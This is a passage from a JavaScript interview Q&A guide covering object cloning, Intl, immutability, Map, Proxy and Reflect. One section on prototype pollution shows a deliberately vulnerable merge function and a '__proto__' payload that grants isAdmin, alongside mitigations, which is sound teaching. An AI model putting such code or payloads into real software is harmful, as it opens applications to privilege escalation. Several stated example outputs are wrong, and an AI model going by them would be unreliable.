**Example 01**: Clone the Object Using Object.assign()

```js
const person = {
    name: 'John',
    age: 21,
}

// cloning the object
const clonePerson = Object.assign({}, person);

console.log(clonePerson);

// changing the value of clonePerson
clonePerson.name = 'Peter';

console.log(clonePerson.name);
console.log(person.name);


// Output
{name: "John", age: 21}
Peter
John
```

**Example 02**: Clone the Object Using Spread Syntax

```js
const person = {
    name: 'John',
    age: 21,
}

// cloning the object
const clonePerson = { ... person}

console.log(clonePerson);

// changing the value of clonePerson
clonePerson.name = 'Peter';

console.log(clonePerson.name);
console.log(person.name);


// Output
{name: "John", age: 21}
Peter
John
```

**Example 03**: Clone the Object Using JSON.parse()

```js
const person = {
    name: 'John',
    age: 21,
}

// cloning the object
const clonePerson = JSON.parse(JSON.stringify(person));

console.log(clonePerson);

// changing the value of clonePerson
clonePerson.name = 'Peter';

console.log(clonePerson.name);
console.log(person.name);

// Output
{name: "John", age: 21}
Peter
John
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-object-clone-hj5uhr?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you copy properties from one object to other?

You can use `Object.assign()` method which is used to copy the values and properties from one or more source objects to a target object.  It returns the target object which has properties and values copied from the target object. The syntax would be as below,

```js
Object.assign(target, ...sources)
```

Let us take example with one source and one target object,

```js
const target = { a: 1, b: 2 };
const source = { b: 3, c: 4 };

const returnedTarget = Object.assign(target, source);

console.log(target); // { a: 1, b: 3, c: 5 }
console.log(returnedTarget); // { a: 1, b: 3, c: 5 }
```

As observed in the above code, there is a common property(`b`) from source to target so it is value is been overwritten.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the difference between native, host and user objects?

**1. Native Objects**:

Are objects that are part of the JavaScript language defined by the ECMAScript specification. For example, `String`, `Math`, `RegExp`, `Object`, `Function` etc core objects defined in the ECMAScript spec.

**2. Host Objects**:

Are objects provided by the browser or runtime environment (Node). For example, `window`, `XmlHttpRequest`, `DOM nodes` etc considered as host objects.

**3. User Objects**:

Are objects defined in the javascript code. For example, User object created for profile information.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are the properties of Intl object?

The `Intl` object is the namespace for the ECMAScript Internationalization API that provides language number formatting, string comparison, and date/time formatting.

Below are the list of properties available on Intl object,

**1. Collator:**

Intl.Collator provides a language-aware comparison of Strings for sorting and searching.

**Example:**

```js
// Intl.Collator()

let collatorEs = new Intl.Collator("es").compare;
console.log(["a", "z", "ñ", "b"].sort(collatorEs)); // ["a", "b", "ñ", "z"]


let collatorEsCaseFirts = new Intl.Collator("es", { caseFirst: "upper" }).compare;  
console.log(["a", "A", "z", "ñ", "b"].sort(collatorEsCaseFirts)); // ["A", "a", "b", "ñ", "z"]
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-intl-collator-jusk3c?file=/src/index.js)**

**2. DateTimeFormat:**

These are the objects that enable language-sensitive date and time formatting.

**Example:**

```js
// Intl.DateTimeFormat()

let now = new Date();
let nowEnUs = new Intl.DateTimeFormat("en-US");
let noeEs = new Intl.DateTimeFormat("es-ES");

console.log(nowEnUs.format(now)); // 5/17/2022 
console.log(noeEs.format(now)); // 17/5/2022 
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-intl-datetimeformat-mnvt4u?file=/src/index.js)**

**3. ListFormat:**

These are the objects that enable language-sensitive list formatting.

**Example:**

```js
// Intl.ListFormat()

let lfEn = new Intl.ListFormat("en", {
    localeMatcher: "lookup",
    type: "disjunction",
    style: "narrow"
});
console.log(lfEn.format(['Hannibal smith', 'Murdock' , 'Faceman', 'B.A." Baracus']));
// Hannibal smith, Murdock, Faceman, or B.A." Baracus

let lfEs = new Intl.ListFormat("es", {
    localeMatcher: "lookup",
    type: "disjunction",
    style: "narrow"
});
console.log(lfEs.format(['Hannibal smith', 'Murdock' , 'Faceman', 'B.A." Baracus']));
// Hannibal smith, Murdock, Faceman o B.A." Baracus
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-intl-listformat-4dq79u?file=/src/index.js)**

**4. NumberFormat:**

Objects that enable language-sensitive number formatting.

```js
// Intl.NumberFormat()

let myNumber = 1000000.999;
let nfEs = new Intl.NumberFormat('es-ES');
let nfEn = new Intl.NumberFormat('en-EU');

console.log(nfEs.format(myNumber)); //1.000.000,999

console.log(nfEn.format(myNumber)); // 1,000,000.999
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-intl-numberformat-whhvc9?file=/src/index.js)**

**5. RelativeTimeFormat:**

Objects that enable language-sensitive relative time formatting.

**Example:**

```js
// Intl.RelativeTimeFormat()

let rtfEn = new Intl.RelativeTimeFormat('en', { numeric: 'auto'  });

console.log(rtfEn.format(2, 'day')); // in 2 days
console.log(rtfEn.format(-1, 'day')); // yesterday
console.log(rtfEn.format(-5, 'month')); //5 months ago


let rtfEs = new Intl.RelativeTimeFormat('es', { numeric: 'auto' });

console.log(rtfEs.format(2, 'day')); // pasado mañana
console.log(rtfEs.format(-1, 'day')); // ayer
console.log(rtfEs.format(-5, 'month')); // Hace 5 meses
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-intl-relativetimeformat-cxwko6?file=/src/index.js)**

**6. Locale:**

Intl.Locale has a toString method that represents the complete contents of the locale. This method allows Locale instances to be provided as an argument to existing Intl constructors.

**Example:**

```js
// Example: Intl.Locale()

let newLocale = new Intl.Locale("en-US", { language: "es" });
console.log(newLocale.toString()); // es-US

let now = new Date();
let dtfMyNewLocale = new Intl.DateTimeFormat(newLocale);

console.log(dtfMyNewLocale.format(now)); // 17/5/2022 


let newLocale2 = new Intl.Locale("en-US", { language: "en" });
console.log(newLocale2.toString()); //en-US

let now2 = new Date();
let dtfMyNewLocale2 = new Intl.DateTimeFormat(newLocale2);

console.log(dtfMyNewLocale2.format(now2)); // 5/17/2022 
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-intl-locale-dgel2y?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you convert date to another timezone in javascript?

The `.toLocaleString()` method to convert date in one timezone to another. 

For example, let us convert current date to British English timezone as below,

```js
console.log(event.toLocaleString('en-GB', { timeZone: 'UTC' })); //29/06/2019, 09:56:00
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. Explain the difference between mutable and immutable objects?

A mutable object is an object whose state can be modified after it is created. An immutable object is an object whose state cannot be modified after it is created.

In JavaScript numbers, strings, null, undefined and Booleans are primitive types which are immutable. Objects, arrays, functions, classes, maps, and sets are mutable.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How to create immutable object in javascript

In JavaScript, some built-in types (numbers, strings) are immutable, but custom objects are generally mutable. Some built-in immutable JavaScript objects are `Math`, `Date`.

Here are a few ways to add/simulate immutability on plain JavaScript objects.

**1. Object Constant Properties:**

By combining `writable: false` and `configurable: false`, you can essentially create a constant (cannot be changed, redefined or deleted) as an object property, like:

**Example:**

```js
let myObject = {};

Object.defineProperty(myObject, 'number', {
  value: 10,
  writable: false,
  configurable: false,
});

console.log(myObject.number); // 10  
myObject.number = 20;          
console.log(myObject.number); // 10
```

**2. Prevent Extensions:**

This method prevents the addition of new properties to our existing object. `preventExtensions()` is a irreversible operation. We can never add extra properties to the object again.

**Example:**

```js
const myCar = {
  maxSpeed: 250,
  batteryLife: 300,
  weight: 123
};

Object.isExtensible(myCar); // true
Object.preventExtensions(myCar);

Object.isExtensible(myCar); // false
myCar.color = 'blue';
console.log(myCar.color) // undefined
```

**3. Seal:**

It prevents additions or deletion of properties. `seal()` also prevents the modification of property descriptors.

**Example:**

```js
const myCar = {
  maxSpeed: 250,
  batteryLife: 300,
  weight: 123
};

Object.isSealed(myCar); // false
Object.seal(myCar);
Object.isSealed(myCar); // true

myCar.color = 'blue';
console.log(myCar.color); // undefined

delete myCar.batteryLife; // false
console.log(myCar.batteryLife); // 300

Object.defineProperty(myCar, 'batteryLife'); // TypeError: Cannot redefine property: batteryLife
```

**4. Freeze:**

It does the same that `Object.seal()` plus it makes the properties non-writable.

**Example:**

```js
const myCar = {
  maxSpeed: 250,
  batteryLife: 300,
  weight: 123
};

Object.isFrozen(myCar); // false
Object.freeze(myCar);
Object.isFrozen(myCar); // true

myCar.color = 'blue';
console.log(myCar.color); // undefined

delete myCar.batteryLife;
console.log(myCar.batteryLife); // 300

Object.defineProperty(myCar, 'batteryLife'); // TypeError: Cannot redefine property: batteryLife

myCar.batteryLife = 400;
console.log(myCar.batteryLife); // 300
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you determine whether object is frozen or not?

`Object.isFrozen()` method is used to determine if an object is frozen or not. An object is frozen if all of the below conditions hold true,

1. If it is not extensible.
2. If all of its properties are non-configurable.
3. If all its data properties are non-writable.
The usage is going to be as follows,

```js
const object = {
  property: 'Welcome JS world'
};
Object.freeze(object);
console.log(Object.isFrozen(object));
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How can you achieve immutability in your own code?

For "mutating" objects, use the spread operator, `Object.assign`, `Array.concat()`, etc., to create new objects instead of mutate the original object.

**Example:**

```js
// Array Example
const arr = [10, 20, 30];
const newArr = [...arr, 40, 50]; // [10, 20, 30, 40, 50]

// Object Example
const human = Object.freeze({ race: "human" });
const aditya = { ...human, name: "Aditya" }; // {race: "human", name: "Aditya"}
const alienAditya = { ...aditya, race: "alien" }; // {race: "alien", name: "Aditya"}
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-immutable-object-jty055?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the drawback of declaring methods directly in JavaScript objects?

One of the drawback of declaring methods directly in JavaScript objects is that they are very memory inefficient.  When you do that, a new copy of the method is created for each instance of an object.

**Example:**

```js
const Employee = function (name, company, salary) 
{
  this.name = name || "";
  this.company = company || "";
  this.salary = salary || 5000;

  // We can create a method like this:
  this.formatSalary = function () {
    return "$ " + this.salary;
  };
};

// we can also create method in Employee\'s prototype:
Employee.prototype.formatSalary2 = function () {
  return "$ " + this.salary;
};

// Creating Objects
let emp1 = new Employee("Yuri Garagin", "Company 1", 1000);
let emp2 = new Employee("Dinesh Gupta", "Company 2", 2000);
```

Here, each instance variable `emp1`, `emp2` has own copy of `formatSalary` method. However the `formatSalary2` will only be added once to an object `Employee.prototype`.

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-class-object-96mc2r?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you compare Object and Map?

**1. Object:**

A data structure in which data is stored as key value pairs. In an object the key has to be a number, string, or symbol. The value can be anything so also other objects, functions, etc. An object is a **nonordered** data structure, i.e. the sequence of insertion of key value pairs is not remembered.

**Example:**

```js
// Object() 

let obj = {};

// adding properties to a object
obj.prop = 10;
obj[2] = 20;

// getting nr of properties of the object
Object.keys(obj).length; // 2

// deleting a property
delete obj[2];

obj; // {prop: 10}
```

**2. ES6 Map:**

A data structure in which data is stored as key value pairs. In which **a unique key maps to a value**. Both the key and the value can be in **any data type**. A map is an iterable data structure. This means that the sequence of insertion is remembered and that we can access the elements in e.g. a `for..of` loop.

**Example:**

```js
// Map() 

const myMap = new Map();

const keyString = "a string",
  keyObj = {},
  keyFunc = function () {};

// setting the values
myMap.set(keyString, "value associated with 'a string'");
myMap.set(keyObj, "value associated with keyObj");
myMap.set(keyFunc, "value associated with keyFunc");

myMap.size; // 3

// getting the values
myMap.get(keyString); // "value associated with 'a string'"
myMap.get(keyObj); // "value associated with keyObj"
myMap.get(keyFunc); // "value associated with keyFunc"

myMap.get("a string"); // "value associated with 'a string'"
// because keyString === 'a string'
myMap.get({}); // undefined, because keyObj !== {}
myMap.get(function () {}); // undefined, because keyFunc !== function () {}
```

**Key differences:**

* A `Map` is ordered and iterable, whereas a objects is not ordered and not iterable
* We can put any type of data as a `Map` key, whereas objects can only have a number, string, or symbol as a key.
* A `Map` inherits from `Map.prototype`. This offers all sorts of utility functions and properties which makes working with `Map` objects a lot easier.

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-object-vs-map-iodiyv?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is shallow copy and deep copy in javascript?

**1. Shallow Copy:**

Shallow copy is a bit-wise copy of an object. A new object is created that has an exact copy of the values in the original object. If any of the fields of the object are references to other objects, just the reference addresses are copied i.e., only the memory address is copied.

A Shallow copy of the object can be done using `object.assign()`

**Example:**

```js
// Shallow Copy

let obj = {
  a: 10,
  b: 20,
};

let objCopy = Object.assign({}, obj);
console.log(objCopy); // Result - { a: 1, b: 2 }
```

**2. Deep Copy:**

A deep copy copies all fields, and makes copies of dynamically allocated memory pointed to by the fields. A deep copy occurs when an object is copied along with the objects to which it refers.

A Deep copy of the object can be done using `JSON.parse(JSON.stringify(object))`

**Example:**

```js
// Deep Copy

let obj2 = {
  a: 10,
  b: {
    c: 20
  }
};

let newObj = JSON.parse(JSON.stringify(obj2));
obj2.b.c = 30;

console.log(obj2); // { a: 10, b: { c: 20 } }
console.log(newObj); // { a: 10, b: { c: 20 } }
```

<p align="center">
  
</p>

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-shallow-vs-deep-copy-ik5b7h?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. Write a function called deepClone which takes an object and creates a object copy of it?

**Modern approach — using `structuredClone()` (ES2022):**

`structuredClone()` is a built-in global function that performs a deep clone of any serializable value. It supports objects, arrays, `Date`, `RegExp`, `Map`, `Set`, and more.

```js
const personalDetail = {
  name: 'Alex',
  address: {
    location: 'xyz',
    zip: '123456',
    phoneNumber: {
      homePhone: 8797912345,
      workPhone: 1234509876
    }
  }
};

const newObject = structuredClone(personalDetail);
newObject.address.zip = '999999';

console.log(personalDetail.address.zip); // '123456' (original unchanged)
console.log(newObject.address.zip);      // '999999'
```

**Manual recursive approach (for environments without `structuredClone`):**

```js
function deepClone(object) {
  var newObject = {};
  for (var key in object) {
    if (typeof object[key] === "object" && object[key] !== null) {
      newObject[key] = deepClone(object[key]);
    } else {
      newObject[key] = object[key];
    }
  }
  return newObject;
}
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. Write a function called `Clone` which takes an object and creates a object copy of it but not copy deep property of object?

```js
  var objectLit = {foo : 'Bar'};
	var cloneObj = Clone(obj); // Clone is the function which you have to write 
	console.log(cloneObj === Clone(objectLit)); // this should return false
	console.log(cloneObj == Clone(objectLit)); // this should return true
```

**solution:**

```js
function Clone(object){
  var newObject = {};
  for(var key in object){
  	newObject[key] = object[key];
  }
  return newObject;
}
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you check if a key exists in an object?

**1. Using `in` operator:**

You can use the in operator whether a key exists in an object or not

```js
const obj = { key: undefined };

console.log("key" in obj); // true, regardless of the actual value
```

and If you want to check if a key doesn\'t exist, remember to use parenthesis,

```js
const obj = { not_key: undefined };

console.log(!("key" in obj)); // true if "key" doesn\'t exist in object
```

**2. Using `hasOwnProperty()` method:**

You can use `hasOwnProperty` to particularly test for properties of the object instance (and not inherited properties)

```js
const obj = { key: undefined };

console.log(obj.hasOwnProperty("key")); // true
```

**3. Using `Object.hasOwn()` (ES2022 — preferred):**

`Object.hasOwn()` is the modern replacement for `hasOwnProperty()`. It is safer because it works correctly even on objects created with `Object.create(null)` (which have no prototype).

```js
const obj = { key: undefined };

console.log(Object.hasOwn(obj, "key"));     // true
console.log(Object.hasOwn(obj, "missing"));  // false
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-in-operator-3fxd3h?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you loop through or enumerate javascript object?

You can use the `for-in` loop to loop through javascript object. You can also make sure that the key you get is an actual property of an object, and doesn\'t come from the prototype using `Object.hasOwn()` (ES2022) or the older `hasOwnProperty()` method.

```js
const object = {
    "k1": "value1",
    "k2": "value2",
    "k3": "value3"
};

for (const key in object) {
    if (Object.hasOwn(object, key)) {
        console.log(key + " -> " + object[key]); // k1 -> value1 ...
    }
}
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you test for an empty object?

**a. Using Object keys(ECMA 5+):** You can use object keys length along with constructor type.

```js
Object.keys(obj).length === 0 && obj.constructor === Object 
```

**b. Using Object entries(ECMA 7+):** You can use object entries length along with constructor type.

```js
Object.entries(obj).length === 0 && obj.constructor === Object 
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is prototype pollution in JavaScript?

**Prototype pollution** is a security vulnerability where an attacker is able to inject properties into a JavaScript object\'s prototype (`Object.prototype`), causing those properties to appear on **every** object in the application. This can lead to denial-of-service, property injection, or remote code execution.

**How it happens:**

Many utility functions (deep merge, clone, set-by-path) use bracket-notation assignment with user-controlled keys. If the key is `__proto__`, `constructor`, or `prototype`, the attacker can modify `Object.prototype`.

```js
// Vulnerable deep merge
function merge(target, source) {
  for (const key in source) {
    if (typeof source[key] === 'object') {
      target[key] = {};
      merge(target[key], source[key]);
    } else {
      target[key] = source[key];
    }
  }
}

const malicious = JSON.parse('{"__proto__": {"isAdmin": true}}');
merge({}, malicious);

// Now EVERY object has isAdmin: true
const user = {};
console.log(user.isAdmin); // true  ← prototype polluted!
```

**How to prevent it:**

```js
// 1. Use Object.create(null) for config/merge targets — no prototype to pollute
const safe = Object.create(null);

// 2. Check for dangerous keys before assignment
function safeMerge(target, source) {
  for (const key of Object.keys(source)) {
    if (key === '__proto__' || key === 'constructor' || key === 'prototype') {
      continue; // skip dangerous keys
    }
    if (typeof source[key] === 'object' && source[key] !== null) {
      target[key] = target[key] || {};
      safeMerge(target[key], source[key]);
    } else {
      target[key] = source[key];
    }
  }
}

// 3. Use Object.freeze(Object.prototype) in security-critical code
Object.freeze(Object.prototype);

// 4. Use structuredClone() or JSON.parse(JSON.stringify()) for deep cloning
// instead of custom recursive merges

// 5. Use well-maintained libraries (lodash >= 4.17.21 patches this)
```

**Detection:**

Use `Object.hasOwn(obj, key)` instead of `key in obj` to avoid reading polluted prototype properties:

```js
// Vulnerable
if ('isAdmin' in user) { ... }     // reads prototype chain

// Safe
if (Object.hasOwn(user, 'isAdmin')) { ... }  // own property only
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is a proxy object?

The `Proxy` object allows to create an object that can be used in place of the original object, but which may redefine fundamental `Object` operations like getting, setting, and defining properties. 

Proxy objects are commonly used to log property accesses, validate, format, or sanitize inputs, and so on. 

**Syntax:**

```js
const proxy = new Proxy(target, handler)
```

In this syntax:

* **target**: is an object to wrap.
* **handler**:  is an object that contains methods to control the behaviors of the `target`.

**Example:**

```js
// define an object called user
const user = {
  firstName: "Aniket",
  lastName: "Narula",
  email: "aniket.narula@email.com"
};

// define a handler object:
const handler = {
  get(target, property) {
    console.log(`Property ${property} has been read.`);
    return target[property];
  }
};

// create a proxy object:
const proxyUser = new Proxy(user, handler);

console.log(proxyUser.firstName);
console.log(proxyUser.lastName);

// Output
Property firstName has been read.
Aniket
Property lastName has been read.
Narula

user.firstName = 'Sonam';
console.log(proxyUser.firstName);

// Output
Property firstName has been read.
Sonam
```

There are many real-world applications for Proxies

* Validation
* Value correction
* Property lookup extensions
* Tracing property accesses
* Revocable references
* Implementing the DOM in javascript

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-in-operator-3fxd3h?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is Reflection in JavaScript?

Reflection is defined as the ability of a program to inspect and modify its structure and behavior at runtime. `Reflect` is not a function object. `Reflect` helps with forwarding default operations from the handler to the target.

**Example:**

```js
// Math.max()
let number = Reflect.apply(Math.max, Math, [10, 20, 30]);
console.log(number); // 30

// FromCharCode()
let string = Reflect.apply(String.fromCharCode, undefined, [ 104, 101, 108, 108, 111]); // "hello"
console.log(string); // "hello"

// RegExp()
let index = Reflect.apply(RegExp.prototype.exec, /o/, ["Hello"]).index;
console.log(index); // 4
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-reflection-nwgjhg?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you display the current date in javascript?

You can use `new Date()` to generate a new Date object containing the current date and time. 

**Example:**

```js
// Current Date

let today = new Date();
let dd = String(today.getDate()).padStart(2, '0');
let mm = String(today.getMonth() + 1).padStart(2, '0'); //January is 0!
let yyyy = today.getFullYear();

today = mm + '/' + dd + '/' + yyyy;
document.write(today);
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-date-nzwk0c?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you add a key value pair in javascript?

There are two possible solutions to add new properties to an object. Let us take a simple object to explain these solutions.

```js
const object = {
    key1: value1,
    key2: value2
};
```

**a.) Using dot notation:** This solution is useful when you know the name of the property

```js
object.key3 = "value3";
```

**b.) Using square bracket notation:** This solution is useful when the name of the property is dynamically determined.

```js
obj["key3"] = "value3";
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you check whether an object can be extendable or not?

The `Object.isExtensible()` method is used to determine if an object is extensible or not. i.e, Whether it can have new properties added to it or not.

```js
// Validate object is extendable or not

const person = {
  firstName: "Sima",
  lastName: "Chander",
  email: "sima.chander@email.com"
};
console.log(Object.isExtensible(person)); //true

Object.preventExtensions(person);
console.log(Object.isExtensible(person)); // false
```

*Note: By default, all the objects are extendable. i.e, The new properties can added or modified.*

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-isextensible-xz0ygi?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How to compare two objects in javascript?

Objects are reference types so you can\'t just use `===` or `==` to compare 2 objects. One quick way to compare if 2 objects have the same key value, is using `JSON.stringify()`. Another way is using Lodash `.isEqual()` function.

**Example:**

```js
const obj1 = { id: 100 };
const obj2 = { id: 100 };

// Using JavaScript
JSON.stringify(obj1) === JSON.stringify(obj2); // true

// Using Lodash
_.isEqual(obj1, obj2); // true
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-object-comparison-w3o578?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you get enumerable key and value pairs?

The `Object.entries()` method is used to return an array of a given object own enumerable string-keyed property [key, value] pairs, in the same order as that provided by a `for...in` loop. Let us see the functionality of object.entries() method in an example,

```js
const object = {
  a: 'Good morning',
  b: 100
};

for (let [key, value] of Object.entries(object)) {
  console.log(`${key}: ${value}`); // a: 'Good morning'
                                  // b: 100
}
```

*Note: The order is not guaranteed as object defined*.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the main difference between Object.values and Object.entries method?

The `Object.values()` method\'s behavior is similar to `Object.entries()` method but it returns an array of values instead [key,value] pairs.

```js
const object = {
  a: 'Good morning',
  b: 100
};

for (let value of Object.values(object)) {
  console.log(`${value}`); // 'Good morning'
                                100
}
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How can you get the list of keys of any object?

You can use `Object.keys()` method which is used return an array of a given object\'s own property names, in the same order as we get with a normal loop. For example, you can get the keys of a user object,

```js
const user = {
  name: 'John',
  gender: 'male',
  age: 40
};

console.log(Object.keys(user)); //['name', 'gender', 'age']
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is difference between array[] vs Object()?

* `[]` is declaring an array.
* `{}` is declaring an object.

An array has all the features of an object with additional features (you can think of an array like a sub-class of an object) where additional methods and capabilities are added in the Array sub-class. In fact, typeof [] === "object" to further show you that an array is an object.

The additional features consist of a magic `.length` property that keeps track of the number of items in the array and a whole slew of methods for operating on the array such as `.push()`, `.pop()`, `.slice()`, `.splice()`, etc... You can see a list of array methods here.

An object gives you the ability to associate a property name with a value as in:

```js
var x = {};
x.foo = 3;
x["whatever"] = 10;
console.log(x.foo);      // shows 3
console.log(x.whatever); // shows 10
```

Object properties can be accessed either via the `x.foo` syntax or via the array-like syntax `x["foo"]`. The advantage of the latter syntax is that you can use a variable as the property name like `x[myvar]` and using the latter syntax, you can use property names that contain characters that Javascript won\'t allow in the `x.foo` syntax.

An array is an object so it has all the same capabilities of an object plus a bunch of additional features for managing an **ordered**, **sequential** list of numbered indexes starting from `0` and going up to some length. Arrays are typically used for an ordered list of items that are accessed by numerical index. And, because the array is ordered, there are lots of useful features to manage the order of the list `.sort()` or to add or remove things from the list.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is difference between `{}` vs `new Object()`?

**1. Object Literal Syntax (`{}`):**

Object literal syntax is a shorthand way of creating an object. We can create an object by placing a comma-separated list of key-value pairs inside curly braces `{ }`. The key represents a property name of the object and the value represents the value of that property.

**Syntax:**

```js
let myObj = {
  prop1: value1,
  prop2: value2,
  prop3: value3
};
```

**Example:**

```js
let person = {
  name: "John", 
  age: 30,
  city: "New York"
};
```

**2. Object Constructor Syntax (`new Object()`):**

The object constructor syntax is a way of creating an object using the `new` operator and the `Object` constructor function. We can create an empty object by calling the `Object` constructor without any arguments. We can also create an object by passing an object literal as an argument to the `Object` constructor.

**Syntax:**

```js
let myObj = new Object();
```

**Example:**

```js
let person = new Object();
person.name = "John";
person.age = 30;
person.city = "New York";
```

**Difference:**

The primary difference between using `{}` and `new Object()` to create an object is that the former uses object literal syntax while the latter uses object constructor syntax.

Object literals are more concise and easier to read and write, especially when creating objects with a small number of properties. On the other hand, object constructors are more flexible and can be used to create objects with properties that are not known at the time of object creation.

In general, it is recommended to use object literal syntax (`{}`) for creating objects unless there is a specific reason to use the object constructor syntax (`new Object()`).

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the `Object.fromEntries()` method?

`Object.fromEntries()` transforms a list of key-value pairs (such as an array of `[key, value]` pairs or a `Map`) into a plain object. It is the inverse of `Object.entries()`.

**Syntax:**

```js
Object.fromEntries(iterable)
```

**Example 1: From an array of entries**

```js
const entries = [['name', 'Alice'], ['age', 30], ['city', 'Paris']];
const obj = Object.fromEntries(entries);
console.log(obj); // { name: 'Alice', age: 30, city: 'Paris' }
```

**Example 2: From a Map**

```js
const map = new Map([['a', 1], ['b', 2], ['c', 3]]);
const obj = Object.fromEntries(map);
console.log(obj); // { a: 1, b: 2, c: 3 }
```

**Example 3: Transforming an object (entries → transform → fromEntries)**

```js
const prices = { apple: 1.5, banana: 0.75, cherry: 3.0 };

// Double all prices
const doubled = Object.fromEntries(
  Object.entries(prices).map(([key, val]) => [key, val * 2])
);
console.log(doubled); // { apple: 3, banana: 1.5, cherry: 6 }
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 22. Functional Programming

<br>

## Q. What are higher-order functions, and how do `map`, `filter`, and `reduce` implement them?

A **higher-order function (HOF)** is a function that either:
- **Takes one or more functions as arguments**, or
- **Returns a function** as its result.

This is possible in JavaScript because functions are **first-class citizens** — they can be stored in variables, passed as arguments, and returned from other functions.

`Array.prototype.map`, `filter`, and `reduce` are the three canonical HOFs in JavaScript. They are **pure transformations** — they do not mutate the original array; they return new arrays or values.

| Method | Input | Output | Purpose |
|---|---|---|---|
| `map(fn)` | Array of A | Array of B (same length) | Transform each element |
| `filter(fn)` | Array of A | Array of A (≤ original length) | Select elements matching a predicate |
| `reduce(fn, init)` | Array of A | Single value of any type | Accumulate/fold elements into one result |

```js
const orders = [
  { id: 1, product: 'Widget',  price: 29.99, qty: 3, status: 'shipped'  },
  { id: 2, product: 'Gadget',  price: 99.99, qty: 1, status: 'pending'  },
  { id: 3, product: 'Doohickey', price: 9.99, qty: 5, status: 'shipped'  },
  { id: 4, product: 'Thingamajig', price: 49.99, qty: 2, status: 'cancelled' },
];

// map — transform: extract a line-item total for each order
const lineTotals = orders.map(o => ({
  id:    o.id,
  total: +(o.price * o.qty).toFixed(2),
}));
// [{ id:1, total:89.97 }, { id:2, total:99.99 }, ...]

// filter — select: only shipped orders
const shippedOrders = orders.filter(o => o.status === 'shipped');
// [ { id:1, ... }, { id:3, ... } ]

// reduce — accumulate: revenue from shipped orders only
const shippedRevenue = orders
  .filter(o => o.status === 'shipped')
  .map(o => o.price * o.qty)
  .reduce((total, lineTotal) => total + lineTotal, 0);

console.log(shippedRevenue.toFixed(2)); // '139.92'

// reduce to group by status (reduce can build any data structure)
const byStatus = orders.reduce((acc, order) => {
  (acc[order.status] ??= []).push(order);
  return acc;
}, {});
// { shipped: [...], pending: [...], cancelled: [...] }

// Chained pipeline — readable, declarative
const topShippedProducts = orders
  .filter(o => o.status === 'shipped')
  .map(o => ({ ...o, lineTotal: o.price * o.qty }))
  .sort((a, b) => b.lineTotal - a.lineTotal)
  .map(o => o.product);
// ['Widget', 'Doohickey']
```

**Real-World Use Case:**

React\'s rendering model is built on `map` — every list component is `items.map(item => <Row key={item.id} {...item} />)`. Data dashboards use `.filter().reduce()` chains to compute KPIs (total revenue, conversion rates) directly from raw event arrays on the client, avoiding round-trips to the server for simple aggregations. Lodash\'s `_.chain()` API formalises this pipeline pattern for complex transformations across large datasets.

<div align="right">
